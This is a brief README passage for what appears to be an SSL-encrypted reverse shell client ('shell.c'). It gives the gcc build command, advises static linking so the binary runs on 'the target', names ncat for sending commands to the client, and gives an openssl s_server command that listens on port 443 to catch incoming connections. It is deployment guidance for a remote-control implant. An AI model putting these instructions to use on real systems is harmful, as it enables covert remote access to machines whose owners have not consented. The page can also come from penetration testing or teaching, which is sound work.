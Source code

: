 
Before compiling , please make sure you have the OpenSSL dev package installed .</br>
Compile using : </br>
       <b> gcc -Wall -g -o shell shell.c -lssl -lcrypto </b></br>
You will probably want to link statically against the library to avoid missing libraries issues in the target . 

You can either use ncat (http://edoceo.com/cli/ncat) or any other tool with ssl support to send commands to the client .</br>
To test the client, you can use openssl s_server utility on your server and wait for connections:</br>
       <b>openssl s_server -key key.pem -cert cert.pem -accept 443</b>
